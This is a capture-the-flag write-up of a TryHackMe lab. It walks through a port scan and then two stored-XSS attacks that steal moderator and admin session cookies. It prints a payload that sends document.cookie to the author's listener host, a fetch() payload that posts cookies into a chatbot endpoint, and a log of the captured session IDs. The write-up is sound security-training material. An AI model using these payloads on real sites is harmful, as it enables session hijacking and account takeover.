 ```yaml
---
title: "TryHackMe - What's Your Name?"
date: 2025-06-20 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [xss, CSRF]
--- 
```



This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks.

## Reconnaissance

I started with a full port scan using **nmap** to identify open services on the target machine:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap  -T4 -sV -sC -p- 10.10.26.74 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 06:44 EDT
Nmap scan report for worldwap.thm (10.10.26.74)
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dd:53:33:5b:68:eb:0b:e0:0a:2a:f0:fa:a3:5e:93:10 (RSA)
|   256 00:87:b6:51:1e:89:b6:30:67:33:36:c2:e6:30:dc:5d (ECDSA)
|_  256 5b:5e:b7:d6:24:3a:0a:d1:c5:cf:37:9a:e5:b9:df:ec (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Scan results : 

- 22/tcp   open  ssh     OpenSSH 8.2p1 (Ubuntu)
- 80/tcp   open  http    Apache httpd 2.4.41
- 8081/tcp open  http    Apache httpd 2.4.41

## Web enumaration

After adding the domain `worldwap.thm` to my `/etc/hosts` file, I visited the website. The main page allowed me to register an account. After successful registration, I saw a message:

> "You'd need to visit login.worldwap.thm to login once you register successfully."

![1](/images/whatsyourname/1.jpg)

I added that subdomain to my hosts file too and navigated to it.

The page was blank at first glance, but checking the source code revealed this comment:


![2](/images/whatsyourname/2.jpg)
So I manually visited http://login.worldwap.thm/login.php and found a login form.

![3](/images/whatsyourname/3.jpg)

Unfortunately, the credentials I created earlier didn’t work.
![3b](/images/whatsyourname/3b.jpg)

## Stealing a Moderator's Cookie via XSS 

Suspecting a vulnerability, I attempted to inject a simple XSS payload by sending an email that contained this script: 

![4](/images/whatsyourname/4.jpg)

```
<script>new Image().src='http://10.23.x.x:1337/log?c='+document.cookie</script>
```
> This script sends the victim’s cookies to my server running on port 1337.

I hosted a listener with Python:

```
sudo python3 -m http.server 1337
```


And it worked! I received requests with the following data:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.26.74 - - [20/Jun/2025 07:06:00] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:06:00] "GET /log?c=PHPSESSID=8ss9dd7o48h9821sttmv66vjrh HTTP/1.1" 404 -
10.10.26.74 - - [20/Jun/2025 07:07:01] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:07:01] "GET /log?c=PHPSESSID=7c42qdip0p52292bvpfkh79pop HTTP/1.1" 404 
```

## Using the Stolen Session

I copied one of the stolen PHPSESSID values and injected it into my browser cookies. Then I reloaded http://login.worldwap.thm/login.php and logged in using the default credentials: hacker:hacker.

This time, I was successfully logged in as a moderator.


![5](/images/whatsyourname/5.jpg)
![6](/images/whatsyourname/6.jpg)



## Eploiting the Chat Bot with XSS again

On the moderator page, I noticed a chatbot feature. I tested it for XSS and, unsurprisingly, it was also vulnerable.


![7](/images/whatsyourname/7.jpg)



I sent the following payload to the chatbot:



```
<script>
fetch("/chat.php", {
    "credentials": "include",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    "body": "message="+document.cookie,
    "method": "POST",
    "mode": "cors"
});
</script>
```

 **What Does This Script Do?**

- fetch(): A modern JavaScript API for making HTTP requests.

- /chat.php: The endpoint used by the chatbot.

- credentials: "include": Ensures the victim's cookies are included in the request.

- body: "message="+document.cookie: Sends the session cookie in the message field.

This trick allowed me to capture the admin's session cookie.

## Admin Access Achieved 

After replacing my browser cookie with the stolen admin session, I refreshed the page and was immediately logged in as the administrator.

![8](/images/whatsyourname/8.jpg)